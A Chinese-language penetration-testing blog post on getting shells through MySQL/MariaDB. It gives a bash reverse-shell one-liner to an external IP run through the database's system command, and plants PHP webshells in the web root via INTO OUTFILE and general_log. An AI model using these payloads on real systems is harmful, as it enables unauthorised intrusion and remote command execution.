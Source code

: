 ```yaml
---
title: 数据库反弹shell的几种方式
toc: true
recommend: 1
uniqueId: '2021-04-28 14:23:26/reverse-shell.html'
mathJax: false
date: 2021-04-28 22:23:26
thumbnail:
tags: [webshell,MySQL]
categories: [个人技术心得,渗透]
keywords:
---
```

> 反弹shell: 将已经获取控制权的机器返回一个shell给外部机器

<!-- more -->

## 反弹BASH

**在外部机器执行的指令**

```shell
nc -l {端口}
```

nc 可以用来连接到端口通信，用法是 `nc [host] [port]`，

也可以启动本机的port进行监听，使用`-l`参数

**在需要反弹机器的数据库里执行指令**

```shell
system bash -c 'bash -i &> /dev/tcp/{外部机器IP}/{端口} <&1'
```

解读指令：

从左到右进行解读，system 是数据库用来执行系统指令的，bash就不多说了，说一下他的参数。

`-c`: 代表command，后面接命令字符串，主要是为了防止其他shell的干扰

`-i`: 交互式shell

`&>`: 将标准输出和错误进行重定向

`/dev/tcp/ip/port`: bash建立socket的一种特殊写法，除此之外还有udp

`<&1`: 把标准输入重定向到标准输出, 其他写法 `0>&1`

## WebShell

### 方法一

1. 目标机器开启80端口且PHP为后端

2. 数据库的全局变量 `secure_file_priv` 值为空，不能为NULL(不能输出文件)，如果有路径代表只能输出到该路径

```sql
MariaDB root@(none):(none)> show variables like '%secure%'
| Variable_name            | Value   |
|:-------------------------|:--------|
| require_secure_transport | OFF     |
| secure_auth              | ON      |
| secure_file_priv         |         |
| secure_timestamp         | NO      |
```

3. 数据库用户有输出文件权限

```sql
select group_concat(user,0x3a,file_priv) from mysql.user;
```

3. 数据库(mysql)对 **$_SERVER['DOCUMENT_ROOT']** 有写入权限
4. 对http服务根目录输出webshell

```sql
select "<?php @system($_GET['cmd']);?>" into outfile '/srv/http/houmen.php';
```

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/webshell.png)

### 方法二

如果上面的 `secure_file_priv` 规定了输出目录或者是NULL，还可以使用 `general_log` 的方法来写shell，general_log可以记录所有基础日志，默认关闭

1. 模糊查找关于general的信息

```sql
MariaDB root@(none):(none)> show variables like '%general%'
| Variable_name    | Value            |
|:-----------------|:-----------------|
| general_log      | OFF              |
| general_log_file | 				  |
```

2. 开启general_log，设置路径

```sql
MariaDB root@(none):(none)> set global general_log = 1;
MariaDB root@(none):(none)> set global general_log_file = '/srv/http/hm.php';
MariaDB root@(none):(none)> show variables like '%general%'
| Variable_name    | Value            |
|:-----------------|:-----------------|
| general_log      | ON               |
| general_log_file | /srv/http/hm.php |
```

3. 写入数据

```sql
MariaDB root@(none):(none)> select "<?php @eval($_GET['command']);?>"
```

```php
❯ sudo cat /srv/http/hm.php 
/usr/bin/mariadbd, Version: 10.5.9-MariaDB (Arch Linux). started with:
Tcp port: 3306  Unix socket: /run/mysqld/mysqld.sock
Time                Id Command  Argument
210429 17:29:36      3 Query    select "<?php @system($_GET['cmd']);?>"
```

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/webshell2.png)

> 关于服务器权限的问题：
>
> 在我的MANJARO系统里，httpd的用户是http，mariadb的用户是mysql，如果根目录不做任何处理，可能会存在mysql无法写入，httpd无法读取的情况

## 总结

后端只要满足三个条件就可以反弹shell

- 支持 tcp 链接
- 支持 IO 重定向
- 可以调用系统命令

> 参考文章
>
> [常见数据库写入Webshell汇总](https://www.ascotbe.com/2020/07/21/DatabaseWriteWebshell/#post-comment)
>
> [bash -i >& /dev/tcp/localhost/8080 0>&1 的含义](https://becivells.github.io/2019/01/bash_i_dev_tcp/)

